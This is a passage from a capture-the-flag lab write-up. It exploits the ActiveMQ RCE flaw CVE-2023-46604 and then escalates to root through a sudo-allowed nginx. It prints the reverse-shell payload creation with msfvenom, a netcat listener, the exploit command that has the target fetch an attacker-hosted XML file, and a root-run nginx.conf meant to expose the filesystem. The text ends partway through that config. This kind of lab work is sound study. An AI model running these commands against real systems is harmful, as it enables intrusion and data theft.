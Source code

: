 ActiveMQ is an open source, multi-protocol, Java-based message broker. A message broker is software that enables applications, systems, and services to communicate with each other and exchange information by translating messages between protocols and languages.
#### Apache ActiveMQ & CVE-2023-46604
Reffering back to the nmap, a lot of this box seems to be oriented around ActiveMQ, and I'm able to get the version from Nmap, 5.15.15. Searching for this version, I find [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604), which is for RCE in this version of ActiveMQ!

Searching around, I find two POC's on github, [one from X1r0z](https://github.com/X1r0z/ActiveMQ-RCE/tree/main) and an updated [version from SaumyajeetDas.](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ) I use the updated version as it is translated into English.

I compile the `main.go` file to build the binary. I modify the `linux-poc.xml` file with my IP address, and create the `.elf` with `msfvenom` as described on the github. After that I start a python server in the directory containing the `xml` and `elf` file, and then run the compiled Go binary.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```
Start a python server
```bash
python3 -m http.server 8001
```
I set up a netcat listener
```bash
nc -lvnp 9001
```
And I then run the `go` binary
```bash
./ActiveMQ-RCE -i 10.129.64.72 -u http://{MY IP}:8001/poc-linux.xml
```
And caught the reverse shell!

# Root Shell
The first thing I notice is the i can run `nginx` as root. 
```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```
There's no [gtfobin](https://gtfobins.github.io) for this, and nothing obvious is coming up when searching for priv esc in this situation. But I'm thinking that I can make a malicious `nginx.conf`, and then restart `nginx` with that conf, perhaps I could run nginx as root and add the whole file system to the nginx site. Or perhaps specify a directory, like `/dev/shm` on the victim, where a write a rev shell that I can then execute as root throuh the browser...

#### Loading Root File System onto Nginx
This worked! I managed to create an `nginx.conf` that would run `nginx` as root and host the entire file system! Running `nginx` is like running `python3 -m http.server 80` except that this isnt a *simple* http server, it's a complicated one, so I need to actually craft a config file. But the same principles and possibilities still apply, I can host the whole file system on either one.
```
user root;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
}
```